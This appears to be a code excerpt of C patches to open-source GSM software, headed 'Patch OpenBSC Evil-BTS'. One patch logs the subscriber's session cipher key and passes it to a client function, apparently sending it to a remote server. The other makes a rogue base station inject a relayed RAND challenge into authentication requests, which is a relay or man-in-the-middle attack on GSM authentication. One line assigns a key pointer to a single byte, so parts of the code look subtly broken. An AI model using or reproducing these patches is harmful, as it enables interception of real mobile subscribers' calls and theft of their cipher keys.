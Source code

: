 ``` {.sourceCode .patch}
@@ -969,6 +971,7 @@

    /* random */
    memcpy(msgb_put(nmsg, 16), rand, 16);
+   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

    /* store sequence */
    subscr->key_seq = key_seq;
@@ -1019,7 +1022,9 @@
    nsh->file = 0x6f20;
    data = msgb_put(nmsg, 9);
    memcpy(data, subscr->key, 8);
-   data[8] = subscr->key_seq;
+        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
+   client(osmo_hexdump(subscr->key,8));
+   data[8] = subscr->key;
    sim_job(ms, nmsg);

    /* return signed response */
```

Patch OpenBSC Evil-BTS:
=======================

``` {.sourceCode .bash}
git clone https://github.com/osmocom/openbsc
git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898
```

``` {.sourceCode .patch}
diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
--- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
+++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
@@ -70,7 +70,10 @@
 #include <osmocom/gsm/tlv.h>

 #include <assert.h>
+#include "server.h"
+#include "hex.h"
+#include "client.h"

 void *tall_locop_ctx;
 void *tall_authciphop_ctx;

@@ -908,6 +911,20 @@
    struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
    struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
    struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
+        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
+   
+
+
+   char *test;
+   test=catch_rand();
+   printf("test %s\n",test);
+   char *randy=strtok(test," -");
+   printf("rand %s\n",rand);
+   char *kandy_seq=strtok(NULL,"-");
+   printf("key_seq %s\n",kandy_seq);
+   char *randy_magnum = spaces(randy);
+        const unsigned char *randynator=hex2ascii(randy_magnum);
+        memcpy(rand,randynator,16);

    DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
    if (autn)
```